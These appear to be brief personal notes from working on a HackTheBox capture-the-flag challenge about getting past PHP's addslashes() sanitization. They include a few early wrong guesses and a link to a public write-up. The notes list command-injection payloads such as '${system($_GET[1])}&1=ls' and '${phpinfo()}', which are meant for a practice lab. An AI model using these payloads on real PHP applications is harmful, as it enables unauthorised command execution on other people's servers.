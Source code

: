 if i include weird letters; i get a interesting output

a = PM?
nevermind

format string attack
this room is probably cryptography

This room is about cracking addslashes().
```
${system($_GET[1])}&1=ls
${phpinfo()}

+ = space in url encoding?
```
https://shakuganz.com/2021/06/23/hackthebox-lovetok-write-up/

this is just about bypassing a sanitization and command injection.
